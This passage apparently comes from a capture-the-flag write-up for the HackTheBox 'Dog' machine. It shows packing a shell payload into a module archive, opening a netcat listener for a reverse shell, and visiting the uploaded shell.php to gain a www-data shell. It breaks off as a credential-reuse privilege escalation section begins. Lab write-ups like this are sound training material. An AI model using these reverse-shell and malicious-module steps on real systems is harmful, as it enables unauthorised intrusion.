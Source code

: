 Now that the files are prepared we can create a `tar.gz` archive using
`tar`

```bash
tar -czvf shell.tar.gz shells
```

![payload-tar](/images/htb-dog/payload-tar.png)

Setup a listener on our machine to accept the reverse shell request

```bash
nc -lvnp 4444
```

Now we can install the module and trigger our reverse shell payload by
visiting

```
http://dog.htb/modules/shell/shell.php
```

![www-data](/images/htb-dog/www-data.png)

## Privilege Escalation
### User
> Reuse credentials!
{: .prompt-tip }

Now that we have access to the server let's enumerate the users on the system
with access to a shell
